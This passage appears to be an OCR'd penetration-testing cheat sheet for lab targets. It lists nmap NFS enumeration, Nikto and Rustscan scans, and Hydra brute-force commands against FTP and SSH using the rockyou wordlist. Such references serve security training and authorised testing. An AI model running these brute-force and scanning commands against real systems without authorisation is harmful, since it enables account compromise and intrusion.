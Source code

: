 - ### NFS Bruteforce
nmap -sV --script=nfs-ls,nfs-statfs,nfs-showmount [IP Target]
###### Example :
```
nmap -sV --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.99.121
```

---------------------------------------------------------------------------
## Nikto
- ###  Nikto Vulnerability Scan
###### Example :
```
nikto -h http://10.10.222.32/
```
- ###  Nikto Vulnerability Scan with Credentials
###### Example :
```
nikto -id bob:bubbles -h http://10.10.222.32:1234/manager/html
```


---------------------------------------------------------------------------
## Rustscan
- ###  Port And Service Scanning
rustscan [IP Target] --ulimit 5000
###### Example :
```
rustscan 10.10.10.11 --ulimit 5000 
```
---------------------------------------------------------------------------
- # Exploitaion
## Hydra
- ### FTP Bruteforce
hydra -l user -P [path to pass-wordlist] ftp://[IP Target]
###### Example :
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.11
```
- ### SSH Bruteforce
hydra -l [username] -P [path to pass-wordlist] [IP Target] -t 4 ssh
###### Example :
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.11 -t 4 ssh 
```
SSH Specific Port Bruteforce
hydra -s 4567 -l [username] -P [path to pass-wordlist] [IP Target] -t 4 ssh
###### Example :
```
hydra -s 4567 -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.11 -t 4 ssh 
```
